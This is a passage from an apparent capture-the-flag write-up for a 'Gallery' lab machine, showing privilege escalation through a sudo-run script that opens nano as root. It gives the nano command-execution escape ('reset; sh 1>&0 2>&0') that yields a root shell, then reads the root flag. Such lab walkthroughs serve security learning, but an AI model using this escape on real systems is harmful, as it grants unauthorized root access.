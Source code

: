 Seeing whats inside rootkit.sh

```bash
mike@gallery:~$ cat /opt/rootkit.sh
#!/bin/bash

read -e -p "Would you like to versioncheck, update, list or read the report ? " ans;

# Execute your choice
case $ans in
    versioncheck)
        /usr/bin/rkhunter --versioncheck ;;
    update)
        /usr/bin/rkhunter --update;;
    list)
        /usr/bin/rkhunter --list;;
    read)
        /bin/nano /root/report.txt;;
    *)
        exit;;
esac
```

since we can exexute the script as root, we should also be able to execute commands inside nano as root.

First type ```read``` as shown 

```bash
mike@gallery:~$ sudo /bin/bash /opt/rootkit.sh
Would you like to versioncheck, update, list or read the report ? read
```

Inside nano type Ctrl + R and Ctrl + X to open up the command line then type this command:
```bash
reset; sh 1>&0 2>&0
```

This should get you the root shell. From there on read the Root file and the room is done.

```bash
# bash
root@gallery:~# id
uid=0(root) gid=0(root) groups=0(root)
root@gallery:~# cat /root/root.txt 
THM{<REDACTED>}

```